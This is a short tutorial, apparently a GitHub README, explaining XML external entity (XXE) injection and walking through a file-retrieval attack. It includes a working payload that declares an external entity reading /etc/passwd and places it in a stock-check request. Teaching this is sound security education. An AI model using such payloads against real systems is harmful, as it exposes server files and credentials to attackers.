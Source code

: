 XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

> XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared
> External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

#### Exploiting XXE to retrieve files
To perform an XXE injection attack
1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
````
General request:
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

Performing XXE attack to retrive "/etc/passwd" file from the system by the following command:-
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
````
